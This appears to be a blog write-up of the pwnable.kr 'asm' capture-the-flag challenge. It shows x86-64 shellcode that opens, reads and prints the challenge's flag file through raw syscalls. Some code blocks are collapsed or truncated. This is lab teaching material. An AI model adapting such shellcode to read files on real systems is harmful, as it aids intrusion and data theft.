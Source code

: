 ```yaml
---
layout: post
title: "Pwnable.kr writeup — asm"
date: 2017-10-29 03:58:11 +0000
categories: blog
---
```


### Pwnable.kr writeup — asm

This is a good start to practice writing shellcode.

Reading the source code, it actually inserts a stub code before the shellcode we need to provide. It is very easy to disassemble the stub code with rasm2:

```
$ rasm2 -b64 -d -B `printf "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"`
```

so it is just clearing many registers, fortunately not including %esp. Therefore we don’t need to worry about setup stack.

```
%esp
```

Writing shellcode is pretty straight forward, only two things need to note:

```
nasm
```

So the following is the shellcode I write.

```
BITS 64GLOBAL _start_start:    jmp filenameopen:    ; fd = sys_open("...", flag, mode)    pop rdi ; filename    mov rsi, 0 ; flags = 0    mov rdx, 0 ; mode = 0    mov rax, 2 ; sys_open    syscall
```

```
test rax, rax  ; file exists?    jz error
```

```
; sys_read(fd, buffer, size)    push rax    pop rdi ; fd    mov rdx, 0x43 ;size    sub rsp, rdx    ;make room on the stack    mov rsi, rsp    ;buffer    xor rax, rax    ;sys_read    syscall
```

```
; sys_write(1, buffer, size)    mov rdx, rax    ;size    mov rsi, rsp ; buffer    mov rdi, 1 ; fd    mov rax, 1 ; sys_write    syscall
```

```
error:    ; sys_exit    xor rax, rax    inc rax    xor rdi, rdi    syscall
```

```
filename:    call open    db "./this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong", 0
```